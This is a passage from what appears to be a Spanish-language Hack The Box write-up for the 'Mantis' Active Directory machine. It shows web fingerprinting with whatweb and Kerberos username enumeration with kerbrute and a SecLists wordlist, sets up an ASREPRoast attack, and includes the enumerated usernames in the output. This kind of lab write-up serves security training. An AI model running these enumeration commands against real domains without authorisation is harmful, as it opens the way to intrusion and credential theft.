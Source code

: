 - Estas son las tecnologías que esta corriendo el servicio web. 

```ruby
❯ whatweb http://10.129.116.149:8080
http://10.129.116.149:8080 [200 OK] ASP_NET[4.0.30319][MVC5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/7.5], IP[10.129.116.149], MetaGenerator[Orchard], Microsoft-IIS[7.5], Script[text/javascript], Title[Tossed Salad - Blog], UncommonHeaders[x-generator,x-aspnetmvc-version], X-Powered-By[ASP.NET]
```

- También tenemos este puerto abierto que es `http`.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/mantis/web2.png">
</p>

- Pero bueno como es un entorno de **Active Directory** podemos usar `kerbrute` y usar un diccionario de `seclists` para enumerar usuarios validos si es que hay para que en caso de encontrar usuarios validos probar un `ASREPRoast Attack`.

- Primero necesitamos `kerbrute` <https://github.com/ropnop/kerbrute/releases>.

- Encontramos que existen estos usuarios.

```bash
❯ ./kerbrute userenum -d htb.local --dc mantis.htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/28/23 - Ronnie Flathers @ropnop

2023/07/28 12:32:45 >  Using KDC(s):
2023/07/28 12:32:45 >  	mantis.htb.local:88

2023/07/28 12:32:46 >  [+] VALID USERNAME:	james@htb.local
2023/07/28 12:32:52 >  [+] VALID USERNAME:	James@htb.local
2023/07/28 12:33:16 >  [+] VALID USERNAME:	administrator@htb.local
2023/07/28 12:33:39 >  [+] VALID USERNAME:	mantis@htb.local
```
